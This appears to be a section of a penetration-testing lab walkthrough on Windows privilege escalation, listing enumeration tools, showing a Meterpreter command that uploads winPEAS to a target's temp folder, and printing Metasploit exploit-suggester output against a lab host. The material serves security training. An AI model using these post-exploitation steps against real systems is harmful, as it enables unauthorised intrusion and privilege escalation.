


# 4. Exploring Automated Tools



[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
  
[https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)  
  
[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)  
  
[https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)  
  
[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)  
  
[https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)  
  
[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)  
  
[https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)  
  
[https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)  
  
[https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)  


## Exploring Automated Tools

We download the winPEAS from the website and try to download that to the target PC:  
  
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x86/Release/winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x86/Release/winPEAS.exe)

Within Meterpreter run this command:

`cd c:\windows\temp  
upload /root/Downloads/windPEAS.exe`

Then we try to run winPEAS.exe;   
Have that mind: _“winPEAS.exe” require a .NET framework of 4 and above which target doesn't have and so this doesn't work._  




Google for the most updated version of "Windows exploit suggester" python file to get the latest changes. 

```text
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 35 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```




